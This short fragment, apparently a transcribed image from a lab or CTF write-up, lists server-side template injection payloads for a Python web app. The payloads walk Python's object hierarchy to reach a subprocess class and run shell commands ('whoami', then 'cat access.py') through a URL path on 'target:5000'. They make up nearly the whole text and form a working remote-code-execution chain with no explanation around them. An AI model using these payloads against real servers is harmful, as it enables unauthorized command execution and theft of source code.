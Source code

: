 1. `/user/{{ ''.__class__.__mro__[1].__subclasses__() }}`
2. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212] }}`
3. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("whoami", shell=True, stdout=-1).communicate() }}`



`http://target:5000/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("cat access.py", shell=True, stdout=-1).communicate() }}`
